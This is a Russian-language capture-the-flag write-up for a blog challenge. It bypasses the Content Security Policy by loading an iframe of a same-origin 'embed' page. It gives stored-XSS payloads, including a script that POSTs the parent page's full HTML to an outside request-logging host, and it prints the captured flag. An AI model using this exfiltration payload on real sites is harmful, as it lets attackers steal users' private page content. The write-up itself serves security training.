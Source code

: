 # Web log: Write-up

Есть блог, на котором можно входить в аккаунт и отправлять посты с HTML-форматированием.

В аутентификации нет видимых уязвимостей: ни SQLi, ни подбор логина-пароля ничего не дают. Поэтому будем разбираться с постами.

HTML-теги правда работают: можно вставлять любые теги от `<b>` и `<img>` и до `<script>`, но если форматирование работает, то скрипты не выполняются. Причина в наличии заголовков CSP:

```
Content-Security-Policy: default-src 'none'; frame-src *; img-src *; media-src *; style-src 'self'
```

Итак, скрипты на этой странице отключены, зато работают `<iframe>`, `<img>` и другое медиа. Это похоже на задание на XSS.

Для теста воспользуемся, например, сайтом [requestbin.com](https://requestbin.com). Он генерирует домен (в моем случае — https://eo5lxkppxdv416x.m.pipedream.net), запросы на который можно отслеживать. Если отправить пост с изображением с URL с этого домена, через короткое время придет GET-запрос — это администратор заходит почитать новый пост в блоге.

Картинки явно к XSS не приведут, а вот с `<iframe>` можно поиграться. Но на что его направить, чтобы не повлиял CORS? Очевидно, на тот же домен — не просто так же у каждого поста есть ссылка "embed", по которой CSP отключен!

> Во время CTF обнаружилось, что можно воспользоваться XSS на странице 404, но суть та же.

Итак, публикуем пост:

```html
<script>fetch("https://eo5lxkppxdv416x.m.pipedream.net");</script>
```

Видим, что ссылка "embed" ведет на https://weblog.o.2023.ugractf.ru/&lt;token&gt;/embed/2, и публикуем еще один пост:

```html
<iframe src="https://weblog.o.2023.ugractf.ru/<token>/embed/2"></iframe>
```

Убеждаемся, что GET-запрос приходит.

Теперь можно реализовать что-нибудь более полезное. Куки, к сожалению, оказываются пустые... Но они вполне могут быть httponly, а флаг явно лежит в первом посте и должен быть виден администратору, поэтому можно просто вытащить весь HTML:

```html
<script>
fetch("https://eo5lxkppxdv416x.m.pipedream.net", {
	method: "POST",
	body: parent.document.documentElement.outerHTML
});
</script>
```

Спустя время на сайт приходит администратор, и на наш сайт приходит POST-запрос, включающий в себя флаг:

```html
...
<article>
	<h2>A flag for my fellow subscribers</h2>
	<div class="author">
		<span>by&nbsp;</span>
		<b>admin</b>
		<a href="report/1">report</a>
		<a href="embed/1">embed</a>
	</div>
	<div class="content">
		
			ugra_cross_site_scripting_is_heavier_than_you_think_cgduh218qukn
		
	</div>
</article>
...
```

Флаг: **ugra_cross_site_scripting_is_heavier_than_you_think_cgduh218qukn**
